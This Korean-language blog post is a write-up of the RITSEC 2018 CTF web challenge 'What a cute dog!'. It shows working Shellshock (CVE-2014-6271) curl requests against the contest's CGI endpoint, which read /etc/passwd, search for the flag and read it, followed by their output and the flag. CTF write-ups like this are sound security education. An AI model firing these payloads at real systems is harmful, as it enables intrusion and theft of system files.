 ```yaml
---
layout: post
title: ! "[RITSEC 2018] What a cute dog! Write up"
excerpt_separator: <!--more-->
comments : true
categories : [CTF/2018]
tags:
  - Write-up
  - CTF
  - RITSEC2018
---
```


주말에 잠깐 짬이 나서 RITSEC CTF에 참여했다.  

웹 몇개랑 암호 한개 정도 풀었는데 그 중에 한 문제에 대한 Write Up을 써 두려고 한다.  

<!--more-->

문제 정보는 다음과 같다.  

```
This dog is shockingly cute!

fun.ritsec.club:8008

Author: sandw1ch
```

문제에 접속하면 아래와 같은 화면이 보인다.  

![](/images/CTF/RITSEC2018/whatacutedog/whatacutedog_01.png)

아무것도 없어 보이는데, `페이지 소스보기`를 하면 `iframe`으로 `/cgi-bin/stats`를 호출하는 것을 알 수 있다.  

```html

<html>

	<head>

    <style>
    body {
        background-image: url("https://wallpaper-house.com/data/out/6/wallpaper2you_129872.jpg");
    }
    </style>

	<meta name="generator" content="vi2html">
	</head>
	<body>
	</br>
</br>
Has Anyone Really Been Far Even as Decided to Use Even Go Want to do Look More Like?</br>
</br>
Wow, this dog is shockingly cute!</br>
	</br>
Stats:
	</br>
	<iframe frameborder=0 width=800 height=600 src="/cgi-bin/stats"></iframe>
	</body>
</html>
```

해당 경로로 들어가면 아까 봤던 두 줄의 정보만 출력될 뿐, 아무것도 나오는 것이 없다.  

```
Sun Nov 18 14:11:01 UTC 2018
14:11:01 up 1 day, 21:58, 0 users, load average: 0.11, 0.31, 0.29
```

뭘까 잠시 고민하다가, 아무 의미 없는 페이지에 뜬금포로 `/cgi-bin/stats`로 들어 가 어떤 정보를 출력하는게 의심스러워서, 이를 가지고 문제를 푸는 것이 아닌가 생각 해 보았다.  

그래서 구글에 `cgi-bin/stats exploit`라고 검색 해 보았는데 깃허브에서 이와 관련 된 `CVE`를 찾을 수 있었다.  

[CVE-2014-6271](https://github.com/hmlio/vaas-cve-2014-6271)

해당 취약점을 가지고 있는 `Debian Linux system`에서 `curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://your-ip:8080/cgi-bin/stats`와 같은 코드를 사용 해 임의의 코드를 실행할 수 있다.  

이에 위의 코드를 그대로 문제 서버에 적용 해 보았다.  

그랬더니 아래와 같이 `/etc/passwd`가 출력 된 것을 확인할 수 있었다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd;'" http://fun.ritsec.club:8008/cgi-bin/stats

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```

그래서 이를 가지고 플래그의 위치를 찾기 위해 `find` 명령어를 실행하도록 아래와 같이 테스트 해 보았다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'find / -name "*flag*"'" http://fun.ritsec.club:8008//cgi-bin/stats

/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/kpageflags
/usr/lib/perl/5.14.2/auto/POSIX/SigAction/flags.al
/usr/lib/perl/5.14.2/bits/waitflags.ph
/opt/flag.txt
/sys/devices/pnp0/00:04/tty/ttyS0/flags
/sys/devices/platform/serial8250/tty/ttyS2/flags
/sys/devices/platform/serial8250/tty/ttyS3/flags
/sys/devices/platform/serial8250/tty/ttyS1/flags
/sys/devices/virtual/net/eth0/flags
/sys/devices/virtual/net/lo/flags
/sys/module/scsi_mod/parameters/default_dev_flags
```

그랬더니 `/opt/flag.txt`라는 파일을 찾을 수 있었다.  

그래서 이번에는 `/opt/flag.txt`를 읽도록 아래와 같이 실행 해 보았더니 플래그를 찾을 수 있었다.  

```
# curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /opt/flag.txt'" http://fun.ritsec.club:8008//cgi-bin/stats

RITSEC{sh3ll_sh0cked_w0wz3rs}
```

```
RITSEC{sh3ll_sh0cked_w0wz3rs}
```
